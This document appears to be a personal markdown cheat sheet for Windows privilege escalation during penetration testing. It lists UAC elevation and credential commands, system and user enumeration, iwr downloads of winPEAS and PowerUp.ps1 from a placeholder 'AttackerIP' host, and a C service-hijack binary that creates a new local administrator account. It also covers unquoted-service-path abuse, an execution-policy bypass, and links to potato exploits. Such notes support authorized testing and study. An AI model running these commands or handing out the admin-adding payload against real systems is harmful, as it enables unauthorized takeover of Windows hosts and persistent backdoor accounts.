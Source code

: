 # Escalation

Cli escalation in current directory:
```
powershell.exe -Command "Start-Process cmd \"/k cd /d %cd%\" -Verb RunAs"
```

Other user authentication: https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script
```
Start-Process powershell.exe -Credential “domain\username” -NoNewWindow -ArgumentList “Start-Process powershell.exe -Verb runAs”
```

```
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```

## Info

### Targets

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

### Users

```
whoami
whoami /priv
whoami /groups
net user
get-localuser
```

### Groups

```
Get-LocalGroup
Get-LocalGroupMember somegroup
```

### System

Windows versions: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions#/media/File:Windows_Version_History.svg
```
ver
systeminfo
```

### Network

```
ipconfig
ipconfig /all
route print
netstat -ano
```

### Programs

Invoke-command: https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/
```
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
Format-Table -AutoSize
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Registry keys: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-childitem?view=powershell-7.3
```
Get-ChildItem -Path HKLM:\HARDWARE
```

### Processes

source: https://stackoverflow.com/questions/31374644/get-process-location-path-using-powershell
```
Get-Process
Get-Process -name someprocess |  % { $_.Path + " " + $_.Id}
Get-Process | Select-Object Path
Get-Process | Select-Object -ExpandProperty Path
Get-Process | ForEach-Object {$_.Path}
(Get-Process -Name someprocess).path
(Get-Process -Id someid).path
```

## Other searches

### Files

```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\*.txt -Recurse -Force
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue | select-object name
```

### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

### WinPeas (Seatbelt, JAWS)

```
cd /usr/share/peass/winpeas/winPEASx64.exe
python3 -m http.server 8088
iwr -uri http://AttackerIP/winPEASx64.exe -Outfile winPEAS.exe

seatbelt.exe -group=all
```
Tools:
- https://github.com/carlospolop/PEASS-ng
- https://github.com/GhostPack/Seatbelt
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
- https://github.com/Marshall-Hallenbeck/compiled_binaries
- https://github.com/411Hall/JAWS

## Services

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode, State, PathName | Where-Object {$_.State -like 'Running'}
Get_ACL
icacls
```

### Hijacking

#### Manual

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user someuser somepass /add");
  i = system ("net localgroup administrators someuser /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Auto

```
cd /usr/share/windows-resources/powersploit/Privesc/
python3 -m http.server 80

iwr -uri http://AttackerIP/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

### Unquoted service path

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
icacls c:\all\the\paths
Get-UnquotedService
Write-ServiceBinary -name 'vulnerablepathservice' -path "C:\unquoted path\"
```

## Other components

### Scheduled tasks

```
schtasks /query /fo LIST /v
```

### Exploits

- https://github.com/itm4n/PrintSpoofer
- https://jlajara.gitlab.io/Potatoes_Windows_Privesc



